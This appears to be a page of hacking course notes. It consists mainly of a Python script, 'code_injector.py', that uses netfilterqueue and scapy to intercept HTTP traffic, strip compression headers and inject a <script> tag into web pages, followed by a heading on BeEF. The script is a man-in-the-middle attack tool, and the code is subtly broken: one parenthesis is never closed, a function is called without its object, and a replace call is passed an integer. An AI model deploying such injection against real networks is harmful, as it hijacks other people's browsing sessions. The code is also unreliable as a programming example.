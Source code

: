 ### Code 

```
#!/usr/bin/env python

# code_injector.py

import netfilterqueue
import scapy.all as scapy 
import re

def set_load(original_packet, load):
	original_packet[scapy.Raw].load = load
	del original_packet[scapy.IP].len
	del original_packet[scapy.IP].chksum
	del original_packet[scapy.TCP].chksum
	return original_packet

def process_packet(packet):
	scapy_packet = scapy.IP(packet.get_payload())
	if scapy_packet.haslayer(scapy.Raw):
		load = scapy_packet[scapy.Raw].load
		
		if scapy_packet[scapy.TCP].dport == 80:
			print("\n[+] Request sent ...\n")
			load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
			
		elif scapy_packet[scapy.TCP].sport == 80:
			print("\n[+] Response received ...\n")
			print(scapy_packet.show())
			injection_code = "<script>alert('Code Injection Successful')</script>"
			load = load.replace("</body>", injection_code + "</body>")
			content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
			if content_length_search:
				content_length = int(content_length_search.group(1)
				new_content_length = content_length + len(injection_code)
				load = load.replace(content_length, str(new_content_length))
			
		if load != scapy_packet[scapy.Raw].load:
			modified_packet = set_load(scapy_packet, load)
			set_payload(str(modified_packet))
			
	packet.accept()

queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

### 10.1 - BeEF
